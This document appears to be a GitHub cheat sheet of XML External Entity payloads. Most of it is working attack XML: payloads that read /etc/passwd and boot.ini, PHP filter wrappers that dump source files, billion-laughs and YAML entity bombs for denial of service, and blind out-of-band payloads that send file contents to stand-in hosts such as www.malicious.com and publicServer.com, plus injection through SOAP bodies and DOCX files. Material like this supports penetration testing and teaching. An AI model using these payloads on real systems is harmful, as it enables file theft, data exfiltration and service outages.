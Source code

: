 # XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities.
XML entities can be used to tell the XML parser to fetch specific content on the server.

## Exploit

Basic XML external entity test, the result should contain "John" in `firstName` and "Doe" in `lastName`.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

## Basic XXE

Classic XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

## PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## Deny of service

**Warning** : These attacks will disable the service or the server, do not use them on the Prod.

Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

Yaml attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

## Blind XXE - Out of Band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Blind XXE

Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

## References

* [XML External Entity (XXE) Processing - OWASP](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)
* [Detecting and exploiting XXE in SAML Interfaces - Von Christian Mainka](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html)
* [staaldraad - XXE payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
* [mgeeky - XML attacks](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)
* [Exploiting xxe in file upload functionality - BLACKHAT WEBCAST- 11/19/15 Will Vandevanter - @_will_is_](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
* [XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer)](http://en.hackdig.com/08/28075.htm)